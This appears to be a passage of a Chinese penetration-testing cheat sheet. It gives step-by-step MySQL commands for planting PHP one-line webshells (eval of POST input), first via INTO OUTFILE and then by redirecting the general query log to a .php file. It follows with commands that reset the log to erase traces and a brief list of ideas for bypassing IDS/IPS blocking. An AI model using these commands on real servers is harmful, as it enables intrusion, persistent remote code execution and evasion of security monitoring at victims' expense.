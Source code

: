 ##### 利用过程
1. 写入一句话木马
```
select '<?php @eval($POST[1]); ?>' INTO OUTFILE 'D:\\phpStudy\\PHPTutorial\\WWW\\a.php'
   这里需要注意的一个点是路径需要用”\“
```

#### 利用全局日志写shell
##### 利用过程
1. 查看配置
```
SHOW VARIABLES LIKE ‘%general%
查看mysql的日志状态，默认是关闭的
general_log_file为日志保存的位置
```
2. 开启general_log模式
```
set global general_log = on;
记录用户输入的每条命令并保存在 C:\phpStudy\MySQL\data\stu1.log 的文件中
开启general_log之后把general_log_file的值修改为该网站默认路径下的某一个自定义的php文件中，然后通过log日志进行写入一句话木马，然后再进一步利用
```
3. 修改日志目录为shell地址
```
set global general_log_file='C:\\phpStudy\\MySQL\\data\\shell.php';
```
4. 写入shell并连接利用
```
select '<?php eval($_POST[cmd]);?>'
```
5. 抹除痕迹
```
set global general_log_file='C:\\phpStudy\\MySQL\\data\\stu1.log';
set global general_log = off;
SHOW VARIABLES LIKE '%general%'
```

## IDS/IPS绕过思路
  入侵检测系统 (IDS) 和入侵防护系统 (IPS)
  与防火墙相似，IPS 内嵌部署到流量中。IPS 是一个主动的网络组件，会检查每个通过的数据包，并根据其配置和策略采取正确的补救措施。相反，IDS 是一个被动组件，通常不会内嵌部署，而是通过 SPAN 或 TAP 技术监控流量，然后发出通知.

#### IPS阻断场景
1. 可以建立TCP连接，检查客户端发出的HTTP请求中的特征，如匹配则发rst阻断或HTTP响应替换，用于域名封禁或Web攻击防护；
```
在应用层，一般利用IPS和Web Server对HTTP语法的理解差异
在网络层，一般利用IPS和操作系统协议栈对TCP/IP的处理方式差异
```
2. 不让建立TCP连接，即客户端发syn包时IPS直接回rst，同时后续如有ack包会双向回rst阻断，用于访问控制或端口封禁；
```
暴露面比较窄，绕过会困难一点，但也不是不可能
```
3. DNS查询场景，伪造DNS响应，劫持网站域名用于封禁或者钓鱼攻击；
```
换个DNS Server就行了
```
4. UDP传输场景下，伪造ICMP响应，告知客户端UDP端口不可达。
```
阻断UDP访问
```
